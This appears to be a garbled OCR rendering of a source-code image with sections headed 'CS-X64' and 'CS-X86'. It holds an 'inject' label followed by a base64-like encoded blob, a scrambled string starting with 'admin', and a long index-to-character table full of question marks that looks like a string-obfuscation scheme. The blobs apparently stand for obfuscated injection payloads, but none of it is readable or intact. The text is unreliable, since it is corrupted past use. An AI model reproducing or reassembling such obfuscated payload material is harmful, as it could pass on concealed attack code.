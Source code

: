 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

jasf4???5|?2??,n;?6,W;??10????,Q?;???14,???O?;18,??E;22,?S;26,????I;30,???y;34,?5;3????8,?o;42?,9?;46???,N;5??0,n???;54,???7;5??8??,???7;62,????V;6????6,???3;????70,t??;??74,o;???78,h????;82,C???;86,?h;90,?F;9???4,??I;98,????S;1?02,i????;10???6????,u;1?10,A;???114????,f;11???8,G????;????122?,????P???;1??26,M????;???130,???5??;????13???4,d;1???38??,X;14????2,Y;1?46,????z;1????50,?E;1??54,??Z;1????58,????7;?162,v??;1?66????,4;17?0,W????;174,?5???;17???8?,z;????|?u????yHn??m????sgWi????ntQ????zt??m????Ot?ELEw5????vSJH?DIO?vY???ydB??b5sH??f????oPzz????9Hf????oNgBn?ntT??N7Iz??B??7j??LSVMy??53?DrvtY????Koo????rxmhd?meCz1?ehw????DEF?r??MfINt????z????SvK????ZiWut???uDfw??AvD????Pf?o??5t?GAbwP??4e???W????Mdt?n5Bkf????dU???PtX??zxHY???1rzzw?OK????En?HDZ??jMx7N??r????bvAI????t40???K?tW???PMr????5qp=z?=ergcv
